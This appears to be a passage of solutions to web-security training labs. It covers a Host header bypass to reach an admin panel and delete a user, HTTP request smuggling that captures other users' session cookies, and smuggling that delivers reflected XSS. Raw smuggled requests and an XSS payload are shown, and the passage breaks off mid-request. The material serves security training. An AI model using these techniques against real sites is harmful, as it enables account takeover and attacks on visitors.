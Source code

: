 ### Lab: Host header authentication bypass

1.  Send the `GET /` request that received a 200 response to Burp Repeater. Notice that you can change the Host header to an arbitrary value and still successfully access the home page.
2.  Browse to `/robots.txt` and observe that there is an admin panel at `/admin`.
3.  Try and browse to `/admin`. You do not have access, but notice the error message, which reveals that the panel can be accessed by local users.
4.  Send the `GET /admin` request to Burp Repeater.
5.  In Burp Repeater, change the Host header to `localhost` and send the request. Observe that you have now successfully accessed the admin panel, which provides the option to delete different users.
6.  Change the request line to `GET /admin/delete?username=carlos` and send the request to delete Carlos and solve the lab.

## HTTP Request Smuggling

### Lab: Exploiting HTTP request smuggling to capture other users' requests

1.  Visit a blog post and post a comment.
2.  Send the `comment-post` request to Burp Repeater, shuffle the body parameters so the `comment` parameter occurs last, and make sure it still works.
3.  Increase the `comment-post` request's `Content-Length` to 400, then smuggle it to the back-end server:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 256  
    Transfer-Encoding: chunked  
      
    0  
      
    POST /post/comment HTTP/1.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 400  
    Cookie: session=your-session-token  
      
    csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test`
4.  View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
5.  Copy the user's Cookie header from the comment, and use it to access their account.

**Note**

If the stored request is incomplete and doesn't include the Cookie header, you will need to slowly increase the value of the Content-Length header in the smuggled request, until the whole cookie is captured.

### Lab: Exploiting HTTP request smuggling to deliver reflected XSS

1.  Visit a blog post, and send the request to Burp Repeater.
2.  Observe that the comment form contains your `User-Agent` header in a hidden input.
3.  Inject an XSS payload into the `User-Agent` header and observe that it gets reflected:  
    `"/><script>alert(1)</script>`
4.  Smuggle this XSS request to the back-end server, so that it exploits the next visitor:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 150  
    Transfer-Encoding: chunked  
      